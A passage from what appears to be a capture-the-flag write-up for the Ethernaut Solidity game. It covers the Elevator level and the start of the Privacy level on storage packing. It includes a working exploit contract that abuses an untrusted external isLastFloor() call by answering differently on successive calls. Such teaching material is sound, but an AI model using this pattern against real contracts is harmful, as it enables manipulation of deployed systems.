 ```solidity

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```

So here the goal is to make the top variable to true. As we see the *`goto()`* fucntion is calling an external contract which implements a method called *`isLastFloor()`* and it takes one parameter.
On the first call to *`isLastfloor()`* it should return false to pass the check with the parameter `_floor` and once the check is cleared the same function should return true on calling it for a second time with the same parameter. 

The following is the code of the Building contract which achieves that:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Elevator {
    function goTo(uint _floor) external;
}

contract Building {
    bool private check = false;
    
    function isLastFloor(uint floor) external returns (bool) {
        
        if (check) {
            return true;
        } else {
            check = true;
            return false;
        }
    }
    
    function start(address elevatorInstance) public {
        Elevator elevator = Elevator(elevatorInstance);
        elevator.goTo(10);
    }
}
```

___

## Level 12 [Privacy]

This challenge familiarizes us with storage methods in solidity and how packing is done by the compiler to optimize storage space.

Each storage slot in solidity is of 32 bytes and storage occurs in a sequential way where the slot starts from 0 and variables can be grouped together if enough space is still available in a particular slot this is known as packing. Packing can be done only in case of statically-sized variable i.e complex types like mapping and dynamic sized arrays are always stored begining from a new slot and cannot be packed.
